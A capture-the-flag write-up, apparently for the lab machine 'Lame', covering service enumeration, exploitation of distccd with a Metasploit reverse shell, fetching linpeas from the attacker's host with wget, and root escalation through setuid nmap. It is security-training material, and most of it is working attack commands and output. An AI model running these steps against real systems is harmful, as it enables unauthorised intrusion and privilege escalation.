 # IP Address: 10.10.10.3

## Enumeration.1
Scan for open ports and services.
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -sV -Pn -p- -T 4 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-10 09:41 EST
Nmap scan report for 10.10.10.3
Host is up (0.027s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### FTP 
Check for anonymous FTP login.
```
┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.3                                                                                  
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:code): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
Anonymous login possible. No files discovered.

### SMB
Check for accessible SMB shares.
```
┌──(code㉿kali)-[~]
└─$ smbmap -u "" -p "" -P 445 -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))

```
Multiple shares discovered. We have READ/WRITE access on tmp.

Connect to tmp and enumerate files.
```
┌──(code㉿kali)-[~]
└─$ smbclient -U '%' -N \\\\10.10.10.3\\tmp                                                                          
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 10 10:09:27 2021
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Wed Nov 10 09:39:26 2021
  vmware-root                        DR        0  Wed Nov 10 09:39:52 2021
  .X11-unix                          DH        0  Wed Nov 10 09:39:51 2021
  .X0-lock                           HR       11  Wed Nov 10 09:39:51 2021
  5562.jsvc_up                        R        0  Wed Nov 10 09:40:29 2021
  vgauthsvclog.txt.0                  R     1600  Wed Nov 10 09:39:23 2021
```


### DISTCCD
This service is exploitable by Metasploit module https://www.exploit-db.com/exploits/9915

```
msf6 > search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
```


# Exploitation.1 
Set available options.

```
msf6 exploit(unix/misc/distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                      loit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.7       yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Exploit the target.

```
msf6 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.7:443 
[*] Command shell session 1 opened (10.10.14.7:443 -> 10.10.10.3:48965 ) at 2021-11-10 10:19:25 -0500
```


# Enumeration.2
Find user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Lame/images/Pasted%20image%2020211110102338.png)

Copy Linpeas to target from local web server.
Local:
```
┌──(code㉿kali)-[~]
└─$ sudo service apache2 start
[sudo] password for code: 

┌──(code㉿kali)-[~]
└─$ sudo cp tools/linpeas.sh /var/www/html/peas.sh
```

On target: 
```
daemon@lame:/tmp$ wget http://10.10.14.7/peas.sh
wget http://10.10.14.7/peas.sh
--10:32:50--  http://10.10.14.7/peas.sh
           => `peas.sh'
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 458,110 (447K) [text/x-sh]

100%[====================================>] 458,110        1.18M/s             

10:32:51 (1.18 MB/s) - `peas.sh' saved [458110/458110]

daemon@lame:/tmp$ chmod +x peas.sh
chmod +x peas.sh

```

Linpeas found nmap on the system with the stick bit set. 

# Local Privilege Escalation

Escalate privileges with nmap via GTFObins exploit https://gtfobins.github.io/gtfobins/nmap/

```
daemon@lame:/$ which nmap 
which nmap
/usr/bin/nmap
daemon@lame:/$ ls -l /usr/bin/nmap
ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
daemon@lame:/$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)

```


# Proof
![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Lame/images/Pasted%20image%2020211110185307.png)
